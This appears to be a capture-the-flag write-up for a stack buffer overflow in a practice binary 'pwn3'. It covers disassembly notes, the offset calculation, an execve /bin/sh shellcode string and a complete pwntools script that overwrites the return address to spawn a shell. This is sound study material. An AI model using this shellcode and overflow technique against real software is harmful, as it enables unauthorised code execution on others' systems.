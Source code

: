 ![[pwn3]]
### Recon
![[Pasted image 20240508181113.png]]
- we see that Stack can be executable so we can inject shell code
### Walkthrough
- Dissassembling main function ![[Pasted image 20240508185058.png]]
- we see that in 12 th line echo() is called
- dissassembling echo ![[Pasted image 20240508185200.png]]
- the address printed is the address of char array initialized and got as input
- no other functions we can see
- inject shell code in this char array padd with offset and overwrite RIP with this char array
- `<shellcode> + <302 bytes buffer - shellcode length> + <given address>`
### Finding offset
- disassemble main ![[Pasted image 20240508185924.png]]
- set breakpoint before return `break *echo+61`
- run ![[Pasted image 20240508190704.png]]
- find offset between input and eip 
- input is stored in ![[Pasted image 20240508191601.png]]
- EIP is at ![[Pasted image 20240508191642.png]]
- `0xffffceec - 0xffffcdbe = 302`
- how 302 (294 char array +4 sp +4 ip)
### Payload
- shellcode 
```
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80
```
- "0" x 302 
- address printed(char addr)
- `<shellcode> + <302 bytes buffer - shellcode length> + <given address>`


```
from pwn import *

target = process('./pwn3')

# Print out the text, up to the address of the start of our input
print target.recvuntil("journey ")

# Scan in the rest of the line
leak = target.recvline()

# Strip away the characters not part of our address
shellcodeAdr = int(leak.strip("!\n"), 16)

# Make the payload
payload = ""
# Our shellcode from: http://shell-storm.org/shellcode/files/shellcode-827.php
payload += "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"
# Pad the rest of the space to the return address with zeroes
payload += "0"*(0x12e - len(payload))
# Overwrite the return address with te leaked address which points to the start of our shellcode
payload += p32(shellcodeAdr)

# Send the payload
target.sendline(payload)

# Drop to an interactive shell to use our newly popped shell
target.interactive()

```